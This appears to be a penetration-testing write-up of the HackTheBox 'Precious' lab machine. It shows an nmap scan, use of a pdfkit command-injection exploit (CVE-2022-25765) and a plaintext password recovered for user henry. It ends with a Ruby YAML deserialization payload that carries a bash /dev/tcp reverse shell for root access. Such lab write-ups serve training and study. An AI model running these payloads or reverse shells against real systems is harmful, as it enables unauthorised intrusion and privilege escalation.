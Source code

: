 ```yaml
---
title: "Precious - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Precious
![](https://kar0nx.github.io/assets/images/writeup/3adcfd6093f8ddb4dffe8422da6377c8.png)
## Reconnaissance

IP: 10.10.11.189
## NMAP

```
nmap -T4 -p- -A 10.10.11.189
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-16 11:30 UTC
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.029s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   28.51 ms 10.10.14.1
2   28.69 ms precious.htb (10.10.11.189)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.26 seconds
```

add precious.htb to /etc/hosts
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916133207.png)

Quick working test 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916133316.png)

and we got response
Let's search for open local ports like in editorial machine, so start burp
copy request and type FUZZ in port value

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916133651.png)

FFUF and feroxbuster didn't find anything userfull so let's dig deeper

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916134226.png)

In response we see that app is powered by phusion Passenger(R) 6.0.15
and is written in Ruby,  which convert site to pdf

Let's check this pdf, I created index.html host it with python and then send it to site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916140100.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916140120.png)

we got page saved in pdf. Let's check for plugin/etc which converts site to pdf.
Simply type exiftool filename

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916140316.png)

And we can spot that this is generated by pdfkit v0.8.6
Found CMD injection vuln CVE-2022-25765
https://www.exploit-db.com/exploits/51293

```
python3 51293.py -s 10.10.14.8 443 -w http://precious.htb/ -p url
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916141039.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916141055.png)

Exploit works perfectly, now let's get TTY shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Gaining Access 

Searching in home directory we have 2 users henry and ruby.
Enumerating ruby home directory I spot non-default .bundle hidden directory and  username and pasword in config file

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916142145.png)

henry Q3c1AqGHtoI0aXAYFH
Now I manage to SSH via henry credentials

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916142404.png)

## Privilege Escalation

Running sudo -l I spot that we can run sudo with ruby

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916142447.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916142931.png)

I'm not good at ruby so let's paste in into llm and check what it finds

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916143326.png)

Searching this I found PoC: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916143712.png)

Now simply change command, I used reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
```

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
         method_id: :resolve
```

run script with sudo

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916143929.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916143851.png)

and we got root shell